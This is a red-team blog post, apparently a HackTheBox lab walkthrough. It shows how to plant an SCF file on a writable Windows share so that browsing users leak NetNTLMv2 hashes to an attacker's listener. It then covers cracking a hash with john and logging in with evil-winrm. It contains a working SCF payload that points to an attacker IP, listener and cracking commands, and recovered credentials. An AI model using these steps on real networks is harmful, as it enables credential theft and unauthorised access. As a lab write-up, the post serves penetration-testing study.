 ```yaml
---
title:  "using-a-scf-file-to-gather-hashes"
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: SMB-SCF  File Attacks(NetNTLMv2 hash(challenge) grab)
categories:
  - Red-Teaming
toc: true
---
```


Have you ever been on a internal network assessment and discovered an unauthenticated writable Windows-based file share? Well, in addition to finding potentially sensitive information, you can abuse this to gather user hashes from users who are browsing the file share.

## Gathering Hashes
It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer.
However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack.

## Create a file
The code  can be placed inside a text file which then needs to be planted into a network share.

Saving as SCF file will make the file to be executed when the user will browse the file

Adding the @ symbol in front of the filename will place the file.scf on the top of the share drive.
```
[shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
Replace with your IP address of where you have Responder listening.

<img src="/img/fci/pay.PNG" alt="Getting-gz" width="800" height="200"> 

Next upload the file into the Desktop within the Public Folders.
The Public/Desktop folder is accessed every time any users logs in.
Therefore when the user logs in, the icon is requested from our attackers box, 
a challenge request is requested by the attacker, a challenger response is then returned to use with the NetNTLMv2.

## set listener 
```
impacket-smbserver -debug -smb2support share /home/nored0x/Desktop/HTB/driver     
```
<img src="/img/fci/listner.PNG" alt="Getting-gz" width="800" height="200"> 

## crack hash 
```
john hash -w=/usr/share/wordlists/rockyou.txt
```
<img src="/img/fci/hash.PNG" alt="Getting-gz" width="800" height="200"> 


<img src="/img/fci/john.PNG" alt="Getting-gz" width="800" height="200"> 


## connect with evil-winrm
```
./evil-winrm.rb -i 10.10.11.106 -u tony -p liltony 
download tool:https://github.com/Hackplayers/evil-winrm
``` 
 
<img src="/img/fci/connect.PNG" alt="Getting-gz" width="800" height="200"> 

  
                       
